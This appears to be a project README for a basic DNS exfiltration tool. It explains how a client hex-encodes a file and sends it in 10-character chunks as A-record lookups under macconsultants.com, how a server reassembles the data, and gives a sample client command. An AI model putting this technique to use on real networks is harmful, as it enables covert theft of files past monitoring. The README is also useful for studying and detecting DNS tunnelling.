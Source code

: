 This is a very basic file exfiltration tool that uses DNS A records to exfiltrate files.

How it Works:
1. build the server and start it (sudo ./<binname>)
2. The dns server will then listen for incoming DNS connections
3. The dns server will resolve any request it gets to 10.10.10.10
4. build and run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

./go-dnsclient ~/Desktop/importantfile.txt

5. the client will then read the contents of the file, hex encod it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. You will need to rename the outfile if you want to send multiple files, since the server will overwrite it



